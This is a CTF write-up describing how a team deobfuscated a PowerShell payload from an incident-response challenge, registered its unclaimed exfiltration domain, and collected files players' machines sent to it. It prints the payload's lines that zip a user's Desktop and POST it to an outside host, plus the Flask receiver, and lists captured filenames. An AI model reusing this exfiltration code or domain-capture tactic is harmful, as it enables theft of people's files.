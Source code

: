 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](../IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```

---

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containg every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![A dutch website checking to check if the domain is available for sale.](claimed.png) _A dutch website checking to check if the domain is available for sale._

## What now?

---

After we claiming the domain, we went ahead and setted up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python webserver would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

---

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We reived a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are not from this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files are ending in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment, but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organisers, on not on their own machine.

We absolutely loved the process we went through by making this.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch
